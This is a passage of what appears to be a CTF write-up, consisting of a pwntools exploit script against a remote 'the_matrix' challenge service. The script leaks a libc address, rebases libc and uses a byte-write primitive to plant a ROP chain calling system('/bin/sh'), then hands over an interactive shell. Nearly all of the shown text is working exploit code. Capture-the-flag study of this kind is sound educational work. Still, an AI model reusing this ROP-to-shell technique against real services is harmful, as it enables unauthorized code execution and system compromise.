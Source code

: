     packed = p64(value)
    for i in range(8):
        p.sendlineafter("Exit\n", "2")
        p.sendlineafter("number: ", "0")
        p.sendlineafter("number: ", str(offset+i))
        if(packed[i] >= 128):
            p.sendlineafter("Value: ", str(packed[i]))
        else:
            p.sendlineafter("Value: ", str(packed[i]))

def main():
    global p
    #p = process("the_matrix")
    p = remote("35.234.117.20", 30502)
    # a cool feature of pwntools
    libc = ELF("./libc-2.27.so")

    #gdb.attach(p)

    p.sendlineafter("Exit\n", "1")

    for i in range(3):
        p.recvline()

    leak = p.recvline().split(b" ")
    print(leak)
    libc_fun = 0 # the libc function's address after parsing the values in the matrix

    for i in range(9, 3 , -1):
        val = int(leak[i])
        if(val < 0):
            val += 256
        libc_fun = libc_fun * 0x100 + val

    rop = ROP(libc)
    libc.address = libc_fun - 0x3bc660 - 0x37000 # rebase libc with the address we found in the leak

    log.info("LIBC BASE @ {}".format(hex(libc.address)))

    # ret
    w8at(ret_offset, rop.find_gadget(["ret"])[0] + libc.address)
    # rdi = "/bin/sh"
    w8at(ret_offset+8, rop.find_gadget(["pop rdi", "ret"])[0] + libc.address)
    w8at(ret_offset+0x10, next(libc.search(b"/bin/sh")))
    # system("/bin/sh")
    w8at(ret_offset+0x18, libc.sym[b"system"])

    p.sendlineafter("Exit\n", "3")

    # let the user execute commands
    p.interactive()

if __name__ == "__main__":
    main()
{% endhighlight %}
